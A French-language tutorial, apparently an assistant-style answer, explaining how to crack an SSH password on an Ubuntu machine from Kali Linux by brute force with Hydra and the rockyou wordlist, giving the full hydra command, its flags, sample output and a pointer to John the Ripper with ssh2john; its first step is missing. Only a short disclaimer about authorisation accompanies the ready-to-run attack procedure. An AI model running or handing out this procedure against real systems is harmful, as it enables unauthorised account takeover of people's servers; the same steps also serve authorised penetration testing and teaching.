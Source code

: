 Pour casser un mot de passe en utilisant une attaque par force brute depuis Kali Linux, vous pouvez utiliser l'outil **Hydra**. Hydra est un outil puissant et flexible pour les attaques par force brute sur divers protocoles.

Voici les étapes pour utiliser Hydra pour casser un mot de passe SSH d'une machine Ubuntu depuis une machine Kali Linux :


### Étape 2 : Préparer une liste de mots de passe
Vous aurez besoin d'une liste de mots de passe à tester. Vous pouvez utiliser une liste existante comme `rockyou.txt` qui est généralement disponible sur Kali Linux. Vous pouvez la trouver ici :
```bash
/usr/share/wordlists/rockyou.txt.gz
```
Décompressez-la si nécessaire :
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```

### Étape 3 : Lancer Hydra
Supposons que l'adresse IP de la machine Ubuntu est `192.168.1.10` et que vous voulez casser le mot de passe pour l'utilisateur `ubuntu`.

Utilisez la commande suivante pour lancer Hydra :
```bash
hydra -l ubuntu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10
```

- `-l ubuntu` : Spécifie le nom d'utilisateur.
- `-P /usr/share/wordlists/rockyou.txt` : Spécifie le chemin vers la liste de mots de passe.
- `ssh://192.168.1.10` : Spécifie le protocole et l'adresse IP cible.

### Étape 4 : Interpréter les résultats
Hydra tentera chaque mot de passe de la liste jusqu'à trouver le bon. Une fois trouvé, il affichera quelque chose comme :
```
[22][ssh] host: 192.168.1.10   login: ubuntu   password: <mot_de_passe_trouvé>
```

### Remarques Importantes
- **Utilisation légale et éthique** : N'utilisez ces techniques que sur des systèmes pour lesquels vous avez l'autorisation explicite. Utiliser des techniques de piratage sur des systèmes sans autorisation est illégal et contraire à l'éthique.
- **Temps et ressources** : Les attaques par force brute peuvent prendre beaucoup de temps et consommer beaucoup de ressources en fonction de la complexité du mot de passe et de la liste de mots de passe utilisée.

### Alternative : John the Ripper
Une autre option populaire est **John the Ripper**, particulièrement efficace pour casser les mots de passe hashés. Vous pouvez utiliser `john` en combinaison avec `ssh2john` pour extraire les hash des clés SSH.


